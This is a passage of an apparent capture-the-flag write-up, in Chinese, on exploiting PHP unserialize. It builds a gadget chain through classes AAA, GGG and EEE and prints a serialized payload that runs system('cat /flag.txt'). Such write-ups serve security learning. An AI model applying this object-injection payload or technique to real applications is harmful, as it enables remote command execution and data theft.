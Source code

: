 为了让此处走else分支，需要控制`$this->d`，经过尝试，当`$this->d`设置为一个字符串的时候，会报error，不行。设置为一个整数的时候，只会报warning，并且分支也会走else。

所以让`$this->d = 1`即可。

#### 生成payload

```php

$e = new EEE();
$e -> d = 1;
$e -> f = "system('cat /flag.txt');";

$g = new GGG();
$g -> book = 'eS';
$g -> green = $e;
 
$a = new AAA(new AAA(1));
$a -> aear -> string = $g; 

echo serialize($a);
```

#### payload

```txt
UP=O:3:"AAA":2:{s:4:"aear";O:3:"AAA":2:{s:4:"aear";i:1;s:6:"string";O:3:"GGG":2:{s:5:"green";O:3:"EEE":3:{s:1:"d";i:1;s:1:"e";N;s:1:"f";s:24:"system('cat /flag.txt');";}s:4:"book";s:2:"eS";}}s:6:"string";N;}
```

![unserialize](./unserialize.png)
